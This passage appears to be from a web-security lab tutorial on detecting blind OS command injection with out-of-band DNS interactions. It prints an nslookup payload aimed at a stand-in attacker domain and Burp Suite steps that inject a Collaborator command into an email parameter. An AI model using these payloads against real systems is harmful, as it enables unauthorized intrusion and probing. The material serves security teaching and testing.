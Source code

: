 An attacker can use an injected command that will trigger an [out-of-band (OAST)](https://portswigger.net/burp/application-security-testing/oast) network interaction with a system that they control, using OAST techniques. For example:
```txt
& nslookup oast.web-attacker.com &
```
This payload uses the `nslookup` command to cause a DNS lookup for the specified domain. The attacker can monitor their system to see if the lookup happens, confirming a command injection vulnerability.

To do this via Burp Suite Professional, follow these steps:
1. Use Burp Suite to intercept and modify the request that submits feedback.
2. Modify the `email` parameter, changing it to:
`email=x||nslookup+x.BURP-COLLABORATOR-SUBDOMAIN||`
3. Right-click and select **Insert Collaborator payload** to insert a Burp Collaborator subdomain where indicated in the modified `email` parameter.

Another technique is using out-of-band channel to easily exfiltrate output from injected commands: